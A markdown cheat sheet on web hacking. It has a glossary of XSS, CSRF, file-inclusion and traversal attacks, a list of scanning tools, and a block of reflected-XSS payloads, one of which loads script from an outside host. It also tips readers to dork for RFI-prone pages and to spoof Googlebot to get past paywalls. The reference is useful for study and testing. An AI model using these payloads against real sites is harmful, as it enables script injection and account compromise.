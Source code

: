 # Web Hacking

## Quick Tips

* [Index of all web client & server security topics](https://portswigger.net/web-security/all-topics)
* Where to look = source code (form input/hidden fields, directories & indexes), URL (parameters), cookie (-stored strings), _robots.txt_, _.htaccess_ & _.htpasswd_
* Access paywalled research papers = install a useragent switcher extension and set it to Googlebot (they let SEs read their content)
  * <https://www.reddit.com/r/reddit.com/comments/6o84t/who_else_is_sick_of_sites_hosting_research_papers/c04f3xz>

## Glossary

* **Clickjacking** = tricking user into clicking on something unintended (eg Facebook likejacking, where hidden button overlay induces a pagelike)
* **C/XSRF** (Cross-Site Request Forgery) = coerces a victim into browsing a legit page s/he's currently logged in via a specially crafted URL with parameters having an immediate effect
  * Caused by a lack of mechanisms to check the source of a request (URL referer or generated form token)
* **Directory Traversal** = abuses an input expecting eg a filename with a more elaborate parent hierarchy traversing path (to something interesting eg a filesystem index or password file)
* **File Inclusion** = abuses a page including another page (even PHP scripts) via its URL, loading/executing them with no boundaries/filters in place, bypassing same website policy
  * **Local** (LFI) = only local files are allowed, could still be used by files whose content can be maniplated by attacker (eg access logs)
  * **Remote File Inclusion** (RFI) = any remote file/page can be included (eg `index.php?page=http://www.google.com`, google them via `inurl:"index.php?page="`)
* **XSS** (Cross-Site Scripting) = abuses a legit page's lack of input (URL, form field) sanitization to insert a malicious (JS) script, accounts for 84% of all security vulnerabilities
  * **Persistent** = the script is saved and served back to the victim when she browses a page displaying unsanitized content (eg _MMQ_)
  * **Non-Persistent** = coerces a victim into browsing a volatile forged (**GET/POST**) URL holding payload as parameter which get displayed on a page without sanitization
    * Eg a (lousy) search engine results page: _You searched: `javascript:alert('oh no');`_

## Tools

* _Burp Suite Scanner_ (by _PortSwigger_) = web app vulnerability testing/scanning graphical tool, server-side vulnerabilities, Interactive Application Security Testing (IAST), web proxy, web app crawler
* _CeWL_ (Custom Word List generator) = crawls & extracts a website's keywords, to feed as contextal passwords fragments into a cracker
* `dirb` (directory buster) = scans all (potentially nonreferenced) files/pages on a website via a dictionary/wordlist
* _gobuster_ = scans all (potentially nonreferenced) files/pages on a website via a wordlist
* _IronWASP_ = open-source web app vulnerability testing/scanning, reports, extensible
* _OWASP Zap_ = web app security testing, AJAX Spidering, Fuzzing, REST APIs testing, active/passive scan, Filters, Anti-CSRF tokens, WebSocket testing, HTTP sessions, Spider

## Payloads

### XSS

Examples (different ways to bypass input sanitization):

```PHP
page.php?q="><script>alert('The Hacker News')</script>
page.php?q="><script>alert("The Hacker News")</script>
page.php?q="><script>alert("The Hacker News");</script>
page.php?q="><script>alert(/The Hacker News");</script>
page.php?q=//"><script>alert(/The Hacker News/);</script>
page.php?q=abc<script>alert(/The Hacker News/);</script>
page.php?q=abc"><script>alert(/The Hacker News/);</script>
page.php?q=abc"></script><script>alert(/The Hacker News/);</script>
page.php?q=abc//abc"></script>alert(/The Hacker News/);</script>
page.php?q=000"><script></script><script>alert(The Hacker News);</script>
page.php?q=000abc</script><script>alert(/The Hacker News/);</script>
page.php?q=--<script>"></script>alert(/The Hacker News/);</script>
page.php?q=pwned<script>document.write('The Hacker News');</script>
page.php?q=pwned</script><script>document.write(The Hacker News);</script>
page.php?q=pwned')alert(The Hacker News);//
page.php?q=pwned";)alert(The Hacker News);//
page.php?q=pwned");alert(/The Hacker News/);//
page.php?q=pwned//"></script><script>location.href='javascript:alert(/The Hacker News/);</script>
page.php?q="><img src='javascript:alert('The Hacker News');'>
page.php?q="><script src='http://malicous js'</script>
```
